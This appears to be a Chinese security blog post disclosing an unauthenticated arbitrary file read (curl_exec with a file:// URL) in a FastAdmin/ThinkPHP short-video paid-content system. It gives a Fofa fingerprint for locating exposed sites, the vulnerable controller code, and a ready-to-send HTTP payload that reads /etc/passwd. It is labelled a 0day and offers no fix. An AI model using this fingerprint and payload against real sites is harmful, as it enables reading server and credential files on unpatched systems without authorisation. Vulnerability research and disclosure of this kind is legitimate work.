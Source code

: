 #  某短视频系统视频知识付费系统存在前台任意文件读取漏洞   
原创 Mstir  星悦安全   2024-11-24 03:46  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**FastAdmin框架****短视频****系统/视频****知识付费****源码/附带小说系统******  
  
**系统视频支持包月、单独购买、观影卷等功能**  
  
**源码附带小说系统**  
  
**源码需要配置高服务器和VDN加速**  
  
**Fofa指纹:"testvideo://login?id="**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cju5wvCgM6icuQaib6nzXEV9oa7ryibOkPoYYHLFtt5tEX50W3aBFibNficyWyS2COd5pK9DhHr389lxg/640?wx_fmt=webp&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cju5wvCgM6icuQaib6nzXEV9icA9ck3wewMlVbvV4MUQHcaox9pltyfvyHUqnK8p7ia6UnRoRyWbfOJw/640?wx_fmt=webp&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cju5wvCgM6icuQaib6nzXEV91sPQR0n7zoLZ0oz6OLa3d9dACEdym5Uptw4bGXx7NJW4ic0f7HYhoicA/640?wx_fmt=webp&from=appmsg "")  
  
框架:ThinkPHP 5 Debug:False  
## 0x01 漏洞分析&复现  
位于 /index/controller/Index.php 控制器的 request_by_curl 方法中存在curl_exec函数，且传参均可控，导致漏洞产生.```
public function request_by_curl($remote_server,$post_string) {
  $ch = curl_init();
  curl_setopt( $ch , CURLOPT_URL, $remote_server );
  curl_setopt( $ch , CURLOPT_POSTFIELDS, 'mypost=' . $post_string );
  curl_setopt( $ch , CURLOPT_RETURNTRANSFER, true);
  curl_setopt( $ch , CURLOPT_USERAGENT, "jb51.net's CURL Example beta" );
  $data = curl_exec( $ch );
  curl_close( $ch );
  return $data ;
}

```  
  
**Payload:**  
```
GET /index/index/request_by_curl?remote_server=file:///etc/passwd&post_string=1 HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cju5wvCgM6icuQaib6nzXEV9HH1KW1viazwvc2un0phA5OVibfKfmkPpDr3bJFgaVUm9Kk53wl81e73w/640?wx_fmt=png&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**短视频源码关注公众号发送 241124 获取!**  
  
  
  
  
下方二维  
码添加好友，回复关键词   
**星悦安全**  
进群  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pPVXCo8Wd8CGA5xDtuNnCSVGd0ibW86zZaJ6tr5ib17xnMbupUibq24HQEl4gRoptsVgCBSNnwBEGmSn3a4ftXVzQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pPVXCo8Wd8AOzYX7kxefGbGGZg3g1ltkN30q9hceg23PiczgUqMT0EE9w0fLK9uw1eKWwQX9TljXQe1OQeHRZ2Q/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
